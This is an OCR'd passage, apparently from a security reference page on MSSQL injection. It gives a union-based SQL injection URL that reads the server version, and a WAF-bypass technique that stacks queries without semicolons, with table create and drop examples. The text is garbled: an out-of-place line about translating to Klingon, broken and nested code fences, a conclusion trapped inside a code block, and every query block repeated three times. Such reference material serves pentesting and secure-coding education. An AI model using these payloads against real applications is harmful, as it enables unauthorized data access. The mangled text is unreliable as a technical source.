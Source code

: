 ```
To translate the example to Klingon:

```
https://vuln.app/getItem?id=0xunion+select\Nnull,@@version,null+from+users--
```

In this example, the `id` parameter is vulnerable to Union-Based SQL Injection. The injected payload `0xunion+select\Nnull,@@version,null+from+users--` attempts to retrieve the version of the MSSQL Server from the `users` table.

```

## Conclusion

MSSQL Injection is a powerful technique that can be used to exploit vulnerabilities in web applications. By understanding the underlying SQL queries and injecting malicious payloads, an attacker can gain unauthorized access to sensitive data. It is important for developers to implement proper input validation and parameterized queries to mitigate the risk of MSSQL Injection attacks.
```

### WAF Bypass with unorthodox stacked queries

According to [**this blog post**](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/) it's possible to stack queries in MSSQL without using ";":

```sql
```
SELECT 'a' SELECT 'b'
```

```
SELECT 'a' SELECT 'b'
```

```
SELECT 'a' SELECT 'b'
```
```

So for example, multiple queries such as:

```sql
```
use [tempdb]
create table [test] ([id] int)
insert [test] values(1)
select [id] from [test]
drop table[test]
```

```
use [tempdb]
create table [test] ([id] int)
insert [test] values(1)
select [id] from [test]
drop table[test]
```

```
use [tempdb]
create table [test] ([id] int)
insert [test] values(1)
select [id] from [test]
drop table[test]
```

```